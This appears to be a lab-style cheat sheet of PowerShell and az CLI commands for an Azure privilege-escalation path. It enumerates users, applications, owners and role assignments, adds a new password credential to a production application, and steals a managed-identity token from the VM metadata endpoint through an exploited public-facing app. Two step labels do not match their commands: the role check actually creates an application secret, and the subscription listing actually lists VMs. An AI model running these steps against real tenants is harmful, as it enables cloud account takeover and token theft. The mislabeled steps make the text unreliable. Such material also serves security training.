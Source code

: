 Get currently logged-in session information:
```powershell
Get-MgContext
```

Get access token with Az CLI:
```powershell
az account get-access-token --resource https://graph.microsoft.com
```

Log in to Mg Graph PowerShell CLI with access token:
```powershell
Connect-MgGraph -AccessToken [TOKEN]
```

Get the User ID of the "auditor" user:
```powershell
Get-MgUser -Filter "startswith(displayName,'auditor')"
```

List all objects owned by the logged-in user:
```powershell
Get-MgUserOwnedObject -UserId [UserID] | ConvertTo-Json
```

Get an application object id & app id:
```powershell
Get-MgApplication -Filter "startswith(displayName,'prod-app')"
```

Get details about the owner of the specified applications:
```powershell
Get-MgApplicationOwner -ApplicationId "AppObjectID" | ConvertTo-Json
```

Check the directory role assigned to the prod application:
```powershell
Add-MgApplicationPassword -ApplicationId "AppObjectID" | ConvertTo-Json
```

Get all the role assignments "auditor" user has on Azure subscription (ARM: Azure Resource Manager):
```powershell
az role assignment list --assignee 'auditor@domain.com' --all
```

Get the list of all available subscriptions:
```powershell
az vm list
```

Enumerate VM Instance and its public IP address:
```powershell
az vm list-ip-addresses --name prod-vm --resource-group PROD-RG
```

Exploit a public-facing application and retrieve the access token of managed identity attached to VM:
```powershell
curl -H "Metadata:true" "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
